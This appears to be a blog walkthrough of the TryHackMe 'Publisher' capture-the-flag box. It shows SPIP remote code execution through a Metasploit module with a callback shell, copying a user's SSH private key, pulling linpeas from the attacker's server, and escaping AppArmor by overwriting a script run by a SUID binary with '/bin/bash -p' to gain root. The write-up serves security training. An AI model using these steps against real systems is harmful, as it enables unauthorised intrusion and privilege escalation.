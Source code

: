 # **Publisher | THM**

***

## **Difficulty == Easy**


![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/5cd8d676-dee0-49ef-916c-447fabe775f4)

***

First of all start jamming with this track as you solve the box xD 😆


<iframe style="border-radius:12px" src="https://open.spotify.com/embed/track/780BUxpCmW9vOVYZsqdLLE?utm_source=generator&theme=0" width="100%" height="352" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>


Running our nmap scan we have


```
# Nmap 7.94SVN scan initiated Thu Jul  4 09:06:41 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.36.191
Warning: 10.10.36.191 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.36.191
Host is up (0.42s latency).
Not shown: 51611 closed tcp ports (conn-refused), 13922 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 09:10:12 2024 -- 1 IP address (1 host up) scanned in 210.99 seconds
```




Navigating to port 80/HTTP we have this website



![](https://i.imgur.com/0UeRidl.png)



Decided to run a directory bruteforce scan and got a `/spip` directory



```
ffuf -ic -u "http://10.10.36.191/FUZZ" -w /usr/share/wordlists/seclist/Discovery/Web-Content/directory-list-2.3-small.txt -fc 404,403,401 -fw 63 -e .txt,.php,.bak,.sql,.pdf,.png,.jpg,.jpeg,.html
```




![](https://i.imgur.com/AbNVHWT.png)



Navigating there looks like we have the true **spip** endpoint



![](https://i.imgur.com/TrgUwLr.png)



Searched for exploit and tried out the manual ones but to no avail



![](https://i.imgur.com/D7bG0TF.png)


Later found out that the reason why there is no response is due to the fact that there is meant to be two `oubli` parameter and we have only one, even by adding the other `oubli` parameter, still no response, find out more about this from [here](https://github.com/nuts7/CVE-2023-27372?tab=readme-ov-file)



![](https://i.imgur.com/TJHQbfr.png)



However for some reason metasploit works using this [module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/spip_rce_form.rb) 



```
use exploit unix/webapp/spip_rce_form
set rhosts --
set lhost --
set lport --
set targeturi spip/
exploit
```


![](https://i.imgur.com/8dBGEVR.png)


Checking the home directory of the user `think`, i found the `id_rsa` key for this user, meaning we can now login via ssh as this user



![](https://i.imgur.com/TvakKAB.png)


Go ahead and copy the `id_rsa` key for this user and login directly 



```
nano id_rsa
chmod 600 id_rsa
ssh think@10.10.77.4 -i id_rsa
```




![](https://i.imgur.com/xL1BHAN.png)



For some reasons i can't upload files or even write to my own home folder and the temporary folder on this machine


![](https://i.imgur.com/4YiyNMM.png)



However i found out there is `/var/tmp` which in fact i can write to


![](https://i.imgur.com/yhpjVvb.png)



![](https://i.imgur.com/aUvwBlr.png)




Then i transferred `linpeas.sh` to the box ASAP



```bash
# Attacker
python3 -m http.server 80

# Victim
wget 10.2.15.115/linpeas.sh
```



![](https://i.imgur.com/DoOBjGf.png)




Something seems fishy after running linpeas, there is a world writable file called `run_container.sh` in the `/opt` directory




![](https://i.imgur.com/Yoj3nxZ.png)



....And there is also a suspicious SUID file called `run_container`


![](https://i.imgur.com/DFsjWvL.png)


Using the strings command on this file looks like the SUID binary calls the file in the `/opt` directory, interesting!!


![](https://i.imgur.com/DjgAXgS.png)


Navigating to the `/opt` directory we get a permission denied


![](https://i.imgur.com/28VEvdJ.png)


However there is an hint on getting root on the tryhackme website



![](https://i.imgur.com/mZL3WWT.png)



checking the `apparmor` profile we can see that there is a rule set for our currently default shell `/usr/sbin/ash`



```
cd /etc/apparmor.d
echo $SHELL
```



![](https://i.imgur.com/Kvccwjh.png)


> **AppArmor** (Application Armor) is a Linux security module that allows the system administrator to restrict programs' capabilities with per-program profiles.


According to the rules we have been denied access as following:

- denied read access to `/opt`
- denied write access to `/opt` due to the (`**`) at the end of the rule
- denied write access to `/tmp`, `/dev`, `/var`, `/home/**`
- Memory map, read, inherit and write permissions allowed on `/usr/bin/**`, `/usr/sbin/**`



![](https://i.imgur.com/iumwmKs.png)



No wonder we can't write or read the `/opt` directory directly, however we are able to at least cat out the file

```
cat /opt/run_container.sh
```


![](https://i.imgur.com/auG649x.png)



After several thought and trials i found this [YouTube video](https://www.youtube.com/watch?v=0FpXW7J-eX0) that helped me where we can actually create all our commands in a file and execute directly using the shebang bypass.


So what do we do ??


Since we have a restriction policy for our current shell in other to bypass this we need to start bash in a new process entirely, soo first of all let create a `.sh` file with all of our commands


```bash
cd /var/tmp
nano cmd.sh

# Paste Content Below

#!/bin/bash

echo "/bin/bash -p" > /opt/run_container.sh
```




![](https://i.imgur.com/1eVlIcb.png)


Now grant executable permissions and run with `./` not `bash` cos you are creating a bash process inside the `ash` shell which won't be executed. You can read more about this from [here](https://gist.github.com/sec-fortress/22a18ecba4fe03028892c1120bdbb82d)


```
chmod +x cmd.sh
./cmd.sh
```



![](https://i.imgur.com/SPQpzZx.png)




Then run the `run_container` SUID file to get root



![](https://i.imgur.com/lk9Uyqf.png)



Congratzzzz, Que se diviertan Amigos 🌠



![](https://i.imgur.com/hRlS5Hi.png)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

